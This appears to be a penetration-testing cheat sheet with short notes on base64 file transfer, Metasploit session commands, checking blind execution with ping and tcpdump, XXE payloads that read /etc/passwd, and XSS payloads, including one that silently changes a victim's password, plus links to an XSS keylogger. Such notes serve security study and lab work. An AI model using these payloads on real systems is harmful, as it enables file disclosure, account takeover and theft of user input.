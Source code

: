 
### send data via Base64 Encoding
on attacker: `base64 -w 0 [FileName]`
on target: `echo "[Base64EncodedFile]" | base64 -d > [FileName]` 


## MSF
search: `search [SEARCHTERM]`\
send data: `upload /path/to/file`\
run exploit in background and enter the session: `run -j`\
sessions: `sessions -i [session id]`\
get "normal" shell: `shell`\
move out of a session: <kbd>CTRL</kbd> + <kbd>z</kbd>

## CHECK IF SOMETHING IS EXECUTED
attacker: `sudo tcpdump -i tun0 icmp`
target: `ping [local tun0 ip] -c 1`

## XML EXTERNAL ENTITY (XXE)
try :
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
```xml
<!DOCTYPE replace [<!ENTITY name "success"> ]>
 <userInfo>
  <firstName>xxe</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
## CROSS SITE SCRIPTING (XSS)
* DOM Based
> JavaScript execution happens directly in browser without any new pages being loaded or data submitted to backend code.
* Reflected
> When user-supplied data in an HTTP request is included in the webpage source without any validation. (Cookie Stealing!)
* Stored
> XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page. (e.g. XSS in Forum Post)
* Blind
> Simmilar to stored, just payload is not seen working. (e.g. contact form)

### XSS PAYLOADS
```html
<img src=xxx onerror="console.log('XSS')">
<script>alert(“Hello World”)</script>
document.write
<img src=x onerror=alert(2)>
<script>fetch('/settings?new_password=pass123');</script>
```
* XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html)
* Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner
